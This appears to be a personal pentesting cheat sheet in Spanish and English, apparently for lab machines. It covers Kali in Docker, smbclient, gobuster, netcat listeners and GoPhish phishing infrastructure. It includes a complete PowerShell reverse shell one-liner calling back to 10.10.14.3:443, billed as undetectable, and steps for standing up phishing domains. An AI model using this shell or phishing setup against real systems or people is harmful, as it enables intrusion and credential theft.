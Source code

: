 # kali_docker
Manual para usar kali con docker en una maquina con servidor x11
```console
~$ docker run -it --cap-add NET_ADMIN  --privileged --net=host --env="DISPLAY" --volume="$XAUTHORITY:/root/.Xauthority:rw" -v $(pwd):/home kalilinux/kali-rolling
```
## Agregar un usuario no root
Dentro del contendor de kali
```console
~#adduser username
```
Y agregarlo a grupo sudo
```console
~# usermod -aG sudo username
``` 
Para tener una consola bonita usar el comando `su` con el argumento `-s /bin/bash`
```console
~# su -s /bin/bash username
```
Otra opción es modificar el archivo `etc/passwd` y modificar el shell por defecto del usuario 
```
username:x:1000:1000::/home/rodrigo:/bin/bash
```

## Uso de SMB Client

```console
smbclient  -N \\\\10.10.10.27\\carpeta -U rodrigo 
```
Once logged you can use `ls` command to list de diretories and `get` to copy a file to your local machine.

## Reverse Shell
In this link there is a ReverseShell CheatSheet

[Reverse Shell cheat sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)


This is an example of a windows shell script that it's not detectable as malicious 
```shell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.3",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
## cat - type
`type` is the windows equivalent linux `cat` command

## Quikly mount http server
Use the command
```console
python3 -m http.server 80
```
It will mount an http server listening on the port 80, and it  will serve any file in the current working directory

## explainshell.com

In the [explainshell.com](https://explainshell.com/) site you can input a command and it will discribe what it does.

## Port listener with netcat

Use netcat to setup a net listener:
```console
nc -lvnp 443
-l listen mode
-v verbose
-n numeric-only IP 
-p port 
```

## Gobuster

List directories of a web server. Use:
```console
gobuster dir -u 10.10.10.28  -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt
```
That wordlist in the example is one of the wordlists that comes with the `dirbuster` command instalation.

# Phising with GoPhish
A TODO list needed in order to use GoPhish
- Get a server with a public IP address (you can use a VPS service like [digital ocean](https://www.digitalocean.com/) or [OVH](https://www.ovhcloud.com/en/vps/cheap-vps/) 
- Download the GoPhish code from its [git hub repository](https://github.com/gophish/gophish)
- Run de GoPhish server 

It is desirable that we don't use IP addresses in out attacks, it is better to have a domain, you can buy a domain in sites like [GoDaddy](https://www.godaddy.com/). Once we have a domain we need to get a certificate for it. There are sites like  [ZeroSSL](https://zerossl.com/) which can issue a certificate for FREE that ara valid for 90 Days.

